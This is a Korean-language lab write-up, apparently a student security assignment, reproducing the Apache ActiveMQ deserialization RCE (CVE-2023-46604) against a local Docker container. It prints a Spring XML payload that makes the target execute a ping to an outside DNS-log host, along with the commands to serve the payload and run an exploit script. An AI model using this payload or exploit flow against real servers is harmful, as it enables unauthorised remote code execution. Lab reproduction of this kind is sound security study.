 # 개요

- **CVE ID**: CVE-2023-46604
- **대상 소프트웨어**: Apache ActiveMQ ≤ 5.15.14
- **취약점 종류**: Remote Code Execution (RCE)
- **심각도**: Critical (CVSS 9.8)
- **요약**:
    
    Apache ActiveMQ의 OpenWire 프로토콜 처리 중 역직렬화된 객체를 검증 없이 실행하면서, 원격에서 임의의 시스템 명령을 실행할 수 있는 취약점입니다.
    

---

# 실습 환경 구성

### ✅ 사용 환경

- Windows 11 + Docker Desktop
- Python 내장 HTTP 서버
- GitHub (Fork 및 커밋용)

### ✅ Docker 이미지 실행

```bash
docker run -d --name activemq -p 8161:8161 -p 61616:61616 rmohr/activemq:5.15.9-alpine
```

- 관리자 웹 접속 주소: `http://localhost:8161`
- 로그인 정보: `admin / admin`

---

## **Docker 이미지 다운로드 완료**

```
docker pull rmohr/activemq:5.15.9-alpine
```

![image.png](attachment:d2de9fca-87f8-4c66-b818-98fb9c4329be:image.png)

---

## **컨테이너 실행 확인**

```
docker ps
```

![image.png](attachment:db88bac1-e59a-4791-ae59-be53be6a893b:image.png)

---

## **ActiveMQ 웹 UI 접속 확인**

- `http://localhost:8161` 접속

![image.png](attachment:e2504549-6ea1-417d-b35f-7a9b5486b713:image.png)

---

# 공격 준비 (PoC 설정)

### ✅ `poc.xml`

```xml
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">

  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>ping</value>
        <value>abcxyz.dnslog.cn</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

---

### ✅ HTTP 서버 실행

```bash
python -m http.server 8000
```

![image.png](attachment:96686567-05ea-418b-bf22-28ae90fc7595:image.png)

---

# 익스플로잇 수행

### ✅ exploit.py 실행

```bash
python exploit.py -i 127.0.0.1 -p 61616 -u http://127.0.0.1:8000/poc.xml
```

![image.png](attachment:49f3f1dd-4112-4d57-8361-4042818df9f8:image.png)

---

### ✅ 공격 성공 여부 확인

![image.png](attachment:e90c76a8-62cc-4f93-89d6-e0871b63520a:image.png)

- 실습 당시 Interactsh가 도메인을 발급하지 못해 실제 요청 수신 로그는 확인하지 못하였지,  exploit 스크립트가 정상 동작하고 서버 응답도 있었기 때문에 PoC 실행 흐름은 재현을 완료하였습니다.

---

# GitHub

- 레포지토리: https://github.com/myonggyu/whs
- 커밋 내역:
    - `feat: add PoC XML with reverse shell`
    - `feat: add exploit.py`
    - `docs: update README.md`
- `exploit.py`, `poc.xml`, `docker-compose.yml` 포함
- 커밋 및 파일 확인 가능

> 🖼️ github_commit.png
> 
> 
> 🖼️ `github_structure.png`
> 

---

# 정리

<aside>
💡

이번 과제를 통해 **Apache ActiveMQ의 RCE 취약점(CVE-2023-46604)** 을 직접 재현하며, **실제 원격 코드 실행(Exploit) 흐름**을 경험해볼 수 있었습니다.

Docker를 이용해 빠르게 환경을 구성하고, `exploit.py`를 통해 XML 기반 페이로드를 전송하면서 ActiveMQ 서버가 이를 실행하는 구조를 체험하였습니다. 특히 **역직렬화(Deserialization)** 와 관련된 보안 취약점이 얼마나 쉽게 악용될 수 있는지를 확인한 점이 매우 인상 깊었습니다.

</aside>
